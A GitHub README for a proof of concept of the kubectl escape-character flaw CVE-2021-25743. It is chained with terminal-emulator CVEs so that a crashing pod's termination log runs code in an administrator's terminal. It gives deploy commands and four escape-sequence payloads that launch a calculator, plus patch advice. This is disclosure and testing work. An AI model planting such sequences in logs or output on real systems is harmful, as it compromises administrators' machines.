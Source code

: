 # Kubectl escape character handling PoC

This is a proof of concept for [CVE-2021-25743][cve-2021-25743] combined with a
selection of terminal vulnerabilities I found that can achieve remote code
execution. It is delivered as a very simple Docker image for ease of testing.

## An imaginary scenario

Container escapes usually need a bug in the container infrastructure, like a
kernel bug or another bug in a subsystem like runc.

If an attacker is unable to abuse those, they may look for more creative means.
This is one such method, it relies on a pod crashing and the administrator
attempting to debug it, while using a terminal with a vulnerability.

In Kubernetes `/dev/termination-log` is world writable within the container and
it's very trivial to crash a container (e.g. run it out of memory). This means
if an attacker finds a way to make an application write to that file and also
DoS an application, they can potentially make the administrator start looking
and in the process get attacked.

This means the container does not need Kubernetes API access of any kind, a
common way to reduce Kubernetes attack surface is to [turn off the service
account secret][apicred] which is automatically mounted in each pod. The issue
with /dev/termination-log is not new, Trail of Bits covered it in their [2019
audit of Kubernetes][2019audit] and a [PR is open][pr108076].

## Usage

_Only use this on systems you have permission to test._

With kubectl configured with a cluster and namespace you have access to create
pods in, simply:

```
kubectl run --image=davidgl/houdini-kubectl-poc kubectl-poc
sleep 10  # or however long the cluster take to schedule the pod
kubectl describe kubectl-poc
```

The pod deliberately crashes. Manual cleanup is needed; delete the
pod when finished:

```
kubectl delete pod/kubectl-poc
```

## CVEs

This primarily targets Kubectl's CVE-2021-25743. It needs to be combined with a
terminal vulnerability to have any effect though. Some examples are:

- xterm font ([CVE-2022-45063][CVE-2022-45063])

  `"\e]50;i$(xcalc&)\a\e]50;?\a"`

- iTerm2 DECRQSS ([CVE-2022-45872][CVE-2022-45872])

  `"\eP$q;open -a Calculator\r\e\\\eP$q\e\\"`

- ConEmu title ([CVE-2022-46387][CVE-2022-46387])

  `"\e]0;\rcalc.exe\r\e\\\e[21t"`

- Windows Terminal ([CVE-2022-44702][CVE-2022-44702])

  `"\e]9;9;/" calc.exe "o /\e\\"`

The list above contains escape sequences in C-style strings, as this section of
the readme is expanded and written to /dev/termination-log, see
[Dockerfile](Dockerfile).

## I'm vulnerable, help?

- Update to kubectl of at least 1.26;
- Update your terminal

## Credits

- Eviatar Gerzi for [finding the kubectl issue][cyberark-title] originally;
- All the terminal authors for fixing things.

[cve-2021-25743]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-25743
[CVE-2022-45063]: https://www.openwall.com/lists/oss-security/2022/11/10/1
[CVE-2022-45872]: https://nvd.nist.gov/vuln/detail/CVE-2022-45872
[CVE-2022-44702]: https://github.com/microsoft/terminal/releases/tag/v1.15.2874.0
[CVE-2022-46387]: https://gist.github.com/dgl/05ca60cdc7efc9e47bbc58d0c952635e
[pr108076]: https://github.com/kubernetes/kubernetes/pull/108076
[apicred]: https://kubernetes.io/docs/tasks/configure-pod-container/configure-service-account/#opt-out-of-api-credential-automounting
[2019audit]: https://github.com/kubernetes/sig-security/blob/6f1cec8878c705b67982e9b3bf3b52d6f19e17e0/sig-security-external-audit/security-audit-2019/findings/Kubernetes%20Final%20Report.pdf
[cyberark-title]: https://www.cyberark.com/resources/threat-research-blog/dont-trust-this-title-abusing-terminal-emulators-with-ansi-escape-characters
